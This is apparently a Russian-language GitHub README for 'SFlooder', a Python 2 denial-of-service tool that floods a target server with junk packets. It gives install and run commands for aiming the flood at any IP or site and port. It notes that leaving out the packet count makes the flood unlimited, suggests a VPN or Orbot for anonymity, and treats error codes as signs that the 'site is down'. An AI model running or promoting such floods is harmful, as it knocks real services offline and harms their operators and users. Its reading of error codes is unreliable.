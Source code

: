 ## SFlooder
#### Немного о программе
Эта программа создаёт нагрузку на сервер посылая на него так называемый «Мусор»
#### Запуск
1. Устанавливаем git(pkg install git)
2. Устанавливаем python(2 версия) командой: 
apt install python2
3. Устанавливаем git командой:
git clone http://github.com/YamkaFox/sflooder.git
4. Переходим в папку с файлом(cd sflooder)
5. Запускаем наш файл командой:
python2 SFlooder.py {айпи или название сайта} {порт} {сколько пакетов} вы хотите отослать
Например:
## python2 SFlooder.py https://example.com 80 1000000
Или же:
## python2 SFlooder.py 192.168.0.1 80 100000000
Если вы не напишите число пакетов, то нагрузка будет бесконечной!
Если на сайте,на который идёт атака вылетает ошибка 24 - значит нехватка интернета(юзайте ThunderVPN или Orbot)
Если ошибка 107 - сайт положен!
Если ошибка 404 - такой страницы не существует!
Если ошибка 502 - сайт перегружен или разорвал соединение
#### Создатель
[!Кирилл(https://vk.com/yamkayt)]
#### Создатели FAQ:
[!Матвей(https://vk.com/id483313209)]
[!Максим(https://vk.com/levenchick)]
